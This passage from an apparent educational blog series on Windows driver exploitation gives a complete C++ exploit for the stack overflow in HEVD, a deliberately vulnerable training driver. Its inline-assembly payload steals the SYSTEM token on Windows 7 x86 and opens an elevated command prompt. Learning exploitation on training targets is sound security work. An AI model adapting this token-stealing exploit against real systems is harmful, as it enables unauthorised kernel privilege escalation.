We could manually clear this, but it's a bit of a pain to keep track of.  Fortunately, there are ways around this.  First, you could compile the shellcode with `nasm` and store it as a byte string, then just pass a reference to the bytes instead of a function.

An easier solution is to just add the `__declspec(naked)` keyword before the shellcode function.  This tells the compiler not to include any prologue or epilogue to the function, and just include our assembly.  Let's compile with that and run it again.



The exploit code runs and doesn't crash!  

## Launching a shell
Let's try launching a command shell!

All that's really required is:

```c
system("cmd");
```

And we get:



The final exploit code, cleaned up a bit, is below:

```c++
#include <windows.h>
#include <stdio.h>

//////////////////////////////////////////////////// 
//                                                //
//    Title: HEVD x86 Stack Overflow              //
//    Platform: Windows 7 x86                     //
//    Author: Jeremy Dunn (@stolenfootball)       //
//    Website: https://stolenfootball.github.io   //
//                                                //
////////////////////////////////////////////////////


/*  
*   This program exploits a standard stack based buffer overflow in the 0x800 
 *  IOCTL of the HEVD (https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
 *  driver.  The exploit is valid on Windows 7 x86 kernels.
 * 
 *  The driver takes in an arbitrary buffer from the user and performs an unchecked
 *  memcpy into a statically sized stack-based buffer in the kernel.
 * 
 *  The kernel stack buffer is 0x800 bytes long.  The driver uses EH4 SEH, which results  
 *  in a 0x1c byte registration struct on the stack.  As such, bytes 0x820 through 0x824
 *  overflow the return address of the vulnerable function.  There is no need to fix the
 *  registration struct as it is unused after the overflow occurs.
 */

 
// Constants for shellcode
#define KTHREAD_OFFSET     0x124  // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET    0x050  // nt!_KTHREAD.ApcState.Process
#define PID_OFFSET         0x0B4  // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET       0x0B8  // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET       0x0F8  // nt!_EPROCESS.Token
#define SYSTEM_PID         0x004  // SYSTEM Process PID

// Vulnerable IOCTL
#define HEVD_IOCTL_BUFFER_OVERFLOW \
    CTL_CODE( 0x22, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS )

// Sizes for overflow
#define BUFFER_SIZE 2048
#define EH4_REGISTRATION_NODE_SIZE 28


INT TriggerExploit(HANDLE hDevice);
VOID TokenStealingPayloadWin7Generic();

INT main() {
    HANDLE hDevice { nullptr };
    PCWSTR lpDeviceName = L"\\\\.\\HackSysExtremeVulnerableDriver";
    INT result { -1 };

    printf("[*] Author: @stolenfootball\n");
    printf("[*] Website: https://stolenfootball.github.io\n\n");

    hDevice = CreateFileW(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        nullptr,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        nullptr
    );

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open handle to driver: %lu\n", GetLastError());
        return -1;
    } 

    printf("[+] Device opened successfully!\n");

    result = TriggerExploit(hDevice);
    if (result < 0) {
        printf("[-] Exploit failed: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] Device successfully exploited!\n");
    
    printf("[+] Cleaning up and closing handle...\n");
    CloseHandle(hDevice);

    printf("[+] Launching elevated command prompt...\n");
    system("cmd");

    return 0;
}

INT TriggerExploit(HANDLE hDevice) {

    PCHAR lpInBuffer    { nullptr };
    ULONG inBufferSize  { 0 };
    DWORD bytesReturned { 0 };
    DWORD lpShellcode   { 0 };

    // Allocate a buffer of the correct size to overflow into the 
    // return address.  Need to overflow the buffer, the SEH EH4 
    // Registration Node, the saved EBP, and finally the return
    // address.  Last 4 bytes will overwrite the return address.
    inBufferSize = BUFFER_SIZE + EH4_REGISTRATION_NODE_SIZE + 4 + 4;
    
    lpInBuffer = (PCHAR)HeapAlloc(GetProcessHeap(), 
                                  HEAP_ZERO_MEMORY, 
                                  inBufferSize);

    if (!lpInBuffer) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] Created buffer of size: %lu\n", inBufferSize);

    // Set buffer to be full of 'A's
    memset(lpInBuffer, 'A', inBufferSize);

    // Set the last 4 bytes to contain a pointer to the "shellcode" function
    lpShellcode = (DWORD)&TokenStealingPayloadWin7Generic;
    lpInBuffer[inBufferSize - 4] = (lpShellcode & 0x000000FF);
    lpInBuffer[inBufferSize - 3] = (lpShellcode & 0x0000FF00) >> 0x8;
    lpInBuffer[inBufferSize - 2] = (lpShellcode & 0x00FF0000) >> 0x10;
    lpInBuffer[inBufferSize - 1] = (lpShellcode & 0xFF000000) >> 0x18;

    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);
    
    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
        inBufferSize,
        nullptr,
        0,
        &bytesReturned,
        nullptr
    );

    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);

    return 0;
}

__declspec(naked) VOID TokenStealingPayloadWin7Generic() {
    __asm {
        pushad                               ; Save registers state
        
        ; Start of Token Stealing Stub       
        xor eax, eax                         ; Set ZERO
        mov eax, fs:[eax + KTHREAD_OFFSET]   ; Get nt!_KPCR.PcrbData.CurrentThread
                                             ; _KTHREAD is located at FS:[0x124]
        
        mov eax, [eax + EPROCESS_OFFSET]     ; Get nt!_KTHREAD.ApcState.Process
        
        mov ecx, eax                         ; Copy current process _EPROCESS structure
        
        mov edx, SYSTEM_PID                  ; WIN 7 SP1 SYSTEM process PID = 0x4
        
        SearchSystemPID:
            mov eax, [eax + FLINK_OFFSET]    ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
            sub eax, FLINK_OFFSET
            cmp [eax + PID_OFFSET], edx      ; Get nt!_EPROCESS.UniqueProcessId
            jne SearchSystemPID
        
        mov edx, [eax + TOKEN_OFFSET]        ; Get SYSTEM process nt!_EPROCESS.Token
        mov [ecx + TOKEN_OFFSET], edx        ; Replace target process nt!_EPROCESS.Token
                                             ; with SYSTEM process nt!_EPROCESS.Token
        ; End of Token Stealing Stub
        
        popad                                ; Restore registers state

        ; Kernel recovery stub
        xor eax, eax                        ; Set return value to 0
        pop ebp                             ; Restore ebp
        ret 8                               ; Return the expected value
    }
}
```

When writing exploit code it is even more difficult than normal to document what your code is doing, since the program being exploited isn't included in the source.  As such, it is even more important than normal to include proper comments and explanations for everything non-obvious that the code is doing.

## Conclusion
That was a big post with a lot of information, but it is probably the most important post in this series.  If you're following along, make sure you understand everything in here before moving on.  Next I'll be discussing how to get this same exploit working on Windows 8.1 with a SMEP bypass.

## More reading
- [HEVD External Blog Posts](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver?tab=readme-ov-file#external-blog-posts)
- [Applied Reverse Engineering Exceptions and Interrupts](https://revers.engineering/applied-re-exceptions/)

## Series Index
- [Part 1 - Overview](https://stolenfootball.github.io/posts/series/windows_drivers/p1_overview/index.html)
- [Part 2 - What's a Driver Anyways?](https://stolenfootball.github.io/posts/series/windows_drivers/p2_whats_a_driver/index.html)
- [Part 3 - The Minimum Viable Driver](https://stolenfootball.github.io/posts/series/windows_drivers/p3_minimum_viable_driver/index.html)
- [Part 4 - Interacting with the Driver](https://stolenfootball.github.io/posts/series/windows_drivers/p4_interacting_with_driver/)
- [Part 5 - Basic Driver Functionality](https://stolenfootball.github.io/posts/series/windows_drivers/p5_basic_driver_function/)
- [Part 6 - Debugging and Basic Rev](https://stolenfootball.github.io/posts/series/windows_drivers/p6_debugging_drivers/)
- [Part 7 - Buffer Overflow on Windows 7](https://stolenfootball.github.io/posts/series/windows_drivers/p7_buffer_overflow_win7/)